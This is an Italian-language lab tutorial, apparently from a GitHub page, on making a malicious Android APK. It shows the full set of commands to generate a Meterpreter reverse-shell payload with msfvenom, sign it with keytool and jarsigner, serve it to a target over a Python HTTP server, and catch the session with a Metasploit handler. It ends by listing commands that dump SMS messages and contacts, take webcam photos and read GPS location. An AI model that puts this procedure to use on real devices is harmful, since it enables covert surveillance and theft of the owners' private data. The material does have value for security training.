

# Android Reverse Shell

Questo laboratorio descrive la procedura standard per la creazione manuale di un file APK malevolo utilizzando `msfvenom`. A differenza degli strumenti automatizzati, questo metodo permette di comprendere il processo di firma digitale necessario per l'installazione di pacchetti su sistemi Android.

## 1. Generazione del Payload

Creiamo il file APK "puro" che contiene il reverse shell meterpreter.

```shell
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP_KALI> LPORT=4444 -o lab_attack.apk
```

## 2. Firma dell'APK

Android rifiuta l'installazione di qualsiasi applicazione che non sia firmata digitalmente. In questo step generiamo un certificato self-signed.

### Generazione della Chiave (Keystore)

```shell
keytool -genkey -v -keystore my-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
```

Nota: verranno chieste alcune informazioni (nome, unità organizzativa, ecc.). Possiamo inserire valori fittizi o lasciare vuoto.

### Firma del file APK

```shell
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-key.keystore lab_attack.apk alias_name
```

## 3. Consegna

Per trasferire il file dalla macchina Kali al dispositivo target, utilizziamo il modulo server HTTP di Python:

```shell
python3 -m http.server 80
```

Sul dispositivo target, aprire il browser e navigare su:
`http://<IP_DI_KALI>/lab_attack.apk`

## 4. Gestione della Sessione

Prepariamo il listener su Metasploit per ricevere la connessione dal payload una volta eseguito

```shell
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST <IP_KALI>; set LPORT 4444; run"
```



Una volta aperta la sessione meterpreter, ecco alcuni comandi utili per l'analisi:
- `sysinfo`: Ottiene informazioni sul sistema (Versione Android, Architettura).
- `dump_sms`: Scarica tutti i messaggi SMS dal dispositivo.
- `dump_contacts`: Estrae la lista dei contatti.
- `webcam_list` / `webcam_snap`: Elenca le fotocamere e scatta una foto.
- `geolocate`: Ottiene le coordinate GPS attuali.
- `shell`: Accede alla shell Linux (sh) del dispositivo.
